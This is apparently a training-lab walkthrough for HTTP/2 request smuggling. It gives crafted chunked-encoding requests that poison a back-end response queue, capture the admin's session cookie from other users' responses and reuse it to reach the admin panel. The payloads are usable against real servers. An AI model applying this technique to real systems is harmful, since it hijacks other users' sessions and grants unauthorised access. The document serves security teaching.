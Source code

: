 1.  Using Burp Repeater, try smuggling an arbitrary prefix in the body of an HTTP/2 request using chunked encoding as follows. Remember to expand the Inspector's **Request Attributes** section and change the protocol to HTTP/2 before sending the request.
    
    `POST / HTTP/2  
    Host: YOUR-LAB-ID.web-security-academy.net  
    Transfer-Encoding: chunked  
      
    0  
      
    SMUGGLED  
      
    `
    
2.  Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.
    
3.  In Burp Repeater, create the following request, which smuggles a complete request to the back-end server. Note that the path in both requests points to a non-existent endpoint. This means that your request will always get a 404 response. Once you have poisoned the response queue, this will make it easier to recognize any other users' responses that you have successfully captured.
    
    `POST /x HTTP/2  
    Host: YOUR-LAB-ID.web-security-academy.net  
    Transfer-Encoding: chunked  
      
    0  
      
    GET /x HTTP/1.1  
    Host: YOUR-LAB-ID.web-security-academy.net  
      
    `
    
    **Note**
    
    Remember to terminate the smuggled request properly by including the sequence `\r\n\r\n` after the `Host` header.
    
4.  Send the request to poison the response queue. You will receive the 404 response to your own request.
    
5.  Wait for around 5 seconds, then send the request again to fetch an arbitrary response. Most of the time, you will receive your own 404 response. Any other response code indicates that you have successfully captured a response intended for the admin user. Repeat this process until you capture a 302 response containing the admin's new post-login session cookie.
    
    **Note**
    
    If you receive some 200 responses but can't capture a 302 response even after a lot of attempts, send 10 ordinary requests to reset the connection and try again.
    
6.  Copy the session cookie and use it to send the following request:
    
    `GET /admin HTTP/2  
    Host: YOUR-LAB-ID.web-security-academy.net  
    Cookie: session=STOLEN-SESSION-COOKIE  
      
    `
    
7.  Send the request repeatedly until you receive a 200 response containing the admin panel.
    